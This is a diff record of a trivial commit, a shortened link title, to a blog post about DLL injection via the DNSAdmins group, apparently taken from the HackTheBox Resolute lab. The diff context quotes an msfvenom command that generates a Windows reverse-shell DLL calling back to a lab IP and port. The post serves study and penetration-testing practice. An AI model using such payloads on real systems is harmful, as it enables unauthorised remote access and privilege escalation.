

Before and after one commit to mvineza/spindel, a Jekyll site: the page built from _posts/2022-03-01-Malicious-DLL-Injection.md, in a window 1280 px wide and 900 px high, scrolled down 3188 px. Shown: the whole window, without its empty margins (236-1037 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; after the commit the page ends 4024 px from its top, so only the background shows below that.

Commit message:
master: shorten url title

```diff
--- a/_posts/2022-03-01-Malicious-DLL-Injection.md
+++ b/_posts/2022-03-01-Malicious-DLL-Injection.md
@@ -75,5 +75,5 @@ msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.31 LPORT=4444 -f dll > evil
 
 ## References
 * HTB Resolute
-* [Escalating Privileges with DNSAdmins Group | by Nairuz Abulhul | R3d Buck3T | Medium](https://medium.com/r3d-buck3t/escalating-privileges-with-dnsadmins-group-active-directory-6f7adbc7005b)
+* [Escalating Privileges with DNSAdmins Group](https://medium.com/r3d-buck3t/escalating-privileges-with-dnsadmins-group-active-directory-6f7adbc7005b)
 * [From DnsAdmins to SYSTEM to Domain Compromise](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise#abuse-dns-with-dnscmd)
```
